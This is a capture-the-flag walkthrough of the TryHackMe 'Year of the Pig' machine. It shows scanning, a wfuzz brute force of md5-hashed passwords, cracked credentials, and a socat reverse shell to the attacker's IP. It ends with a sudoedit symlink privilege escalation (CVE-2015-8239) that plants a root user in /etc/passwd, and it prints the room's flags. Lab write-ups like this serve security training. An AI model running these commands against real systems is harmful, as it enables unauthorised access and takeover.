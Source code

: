 > Year of the Pig 

**export IP=10.10.190.2**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  tcpwrapped syn-ack
80/tcp open  http       syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -x php,txt,html,sql,bak,py,js -o gobuster/initial

```
/admin (Status: 301)
/api (Status: 301)
/assets (Status: 301)
```

The login page /admin gives us a message `Remember that passwords should be a memorable word, followed by two numbers and a special character`. Let's try for that pattern in index.html.

Let's cretae a python program! We have a wordlist and now let's crack our login page !

Looking at the request we see that the password is md5 encrypted so let's write a basic script which hashes our passwords.

```
#!/bin/bash

cat wordlist.txt | while read -r line; do printf %s "$line" | md5sum | cut -f1 -d' '; done > password.lst
```

And using Wfuzz we can crack the login. 

sudo wfuzz -w password.lst -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.146.190/api/login --hh 63

```
000002022:   200        0 L      3 W      99 Ch       "ea22b622ba9b3c41b22785dcb40211ac" 
```

And looking at line 2022 we have the password `savoia21!`. Either we can create a reverse shell in the command line they provided else we can login as SSH.

# Flag 1

```
THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}
```

We are in as marco and looking at /var/www we can't read admin.db and var-www can access it. Let's elevate to var-www. Let's upload socat binary to the remote box and let's set up a listener in ours
`socat tcp-l:12345 file:`tty`,raw,echo=0` and in the remote machine `/tmp/socat tcp:10.8.107.21:12345 exec:"bash -li",pty,stderr,sigint,setsid,sane`.

Now we can view the admin.db `sqlite3 admin.db`. And we can see curtis's password.

```
.table => lists tables 
select * from users; => We have md5 hashes of users.
```

We can crack it in crackstation `Donald1983$`.

# Flag 2

```
THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}
```

# Privilege Escalation

sudo -l

```
(ALL : ALL) sudoedit /var/www/html/*/*/config.php
```

## sudo version

```
Sudo version 1.8.13
Sudoers policy plugin version 1.8.13
Sudoers file grammar version 44
Sudoers I/O plugin version 1.8.13
```

Looks like we are vulnerable to `CVE-2015-8239`. For this vuln. we have to create 2 directories but curtis isn't web-developer's group so we need to do it as marco.

Now let's link a /etc/passwd file to config.php. 

`ln -s /etc/passwd /var/www/html/dir1/dir2/config.php`. And su to curtis and add it in config file 

Let's create a password to add to /etc/passwd file.

openssl passwd -6 --salt randomsalt root

`$6$randomsalt$AHPxtUYrDkCaFk3kuP6syCZeGbMzkohyz4oDUk4KWVhG3MiGClEnACLhhmNP6kPLu2yn23w75L6lJHFjZaC0X0`

Now as curtis `sudoedit /var/www/html/dir1/dir2/config.php`

```
admin:$6$randomsalt$AHPxtUYrDkCaFk3kuP6syCZeGbMzkohyz4oDUk4KWVhG3MiGClEnACLhhmNP6kPLu2yn23w75L6lJHFjZaC0X0:0:0::/root:/bin/bash
```

And I created an user named `admin` with password `root`. And we are root!!

# root.txt

```
THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}
```